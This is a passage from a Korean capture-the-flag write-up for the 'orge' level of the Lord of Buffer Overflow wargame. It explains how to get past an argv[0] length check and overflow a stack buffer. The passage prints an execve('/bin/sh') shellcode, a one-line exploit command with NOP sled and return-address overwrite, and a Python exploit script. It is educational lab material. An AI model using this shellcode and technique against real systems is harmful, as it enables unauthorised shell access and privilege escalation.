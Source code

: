 이제 쉘코드를 넣고 RET주소에 0xbffffb64 를 넣으면 끄읏~

<br>

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/07.orge/image-20180829173636979.png" width="850px">{:.rounded.shadow}

```shell
[darkelf@localhost darkelf]$ /home/darkelf////////////////////////////////////////////////////////////orge `python -c 'print "A"*44+"\x64\xfb\xff\xbf"'` `python -c 'print "\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```

-----

### 0x03. 정리

orge 문제에는 argv[0]의 길이를 검증하는 로직이 추가되었으며, 쉘기능을 사용하여 argv[0] 길이 검증을 우회할 수 있었다.

-----

```python
import os
import struct

append = lambda x, y: x + y
p32 = lambda x: struct.pack("<I", x)

target = "/home/darkelf/" + "/"*59 + "orge"
print len(target)

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
argv2_addr = 0xbffffd20

payload1 = "\x90"*44
payload1 = append(payload1, p32(argv2_addr))

payload2 = "\x90"*50
payload2 = append(payload2, shellcode)

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload1, payload2))
else:
        os.waitpid(pid, 0)
```

> <u>python script로 exploit 할 때는 실제 주소가 다를 수 있음</u>

-----

